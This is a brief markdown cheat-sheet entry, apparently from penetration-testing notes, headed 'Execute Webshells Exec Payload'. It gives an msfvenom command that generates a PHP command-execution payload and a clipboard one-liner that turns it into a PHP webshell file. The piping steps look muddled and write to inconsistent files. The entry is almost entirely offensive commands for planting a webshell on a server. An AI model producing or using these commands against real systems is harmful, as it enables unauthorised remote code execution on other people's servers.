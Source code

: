 # Exec Payloads

## Execute Webshells Exec Payload

### 01 - PHP

```
$ msfvenom -p php/exec cmd="<commands>" -f raw -o exec.php

$ cat exec.php | xclip -selection clipboard && echo '<?php ' | tr -d '\n'> shell.php && xclip -selection clipboard -o >> exec.php
```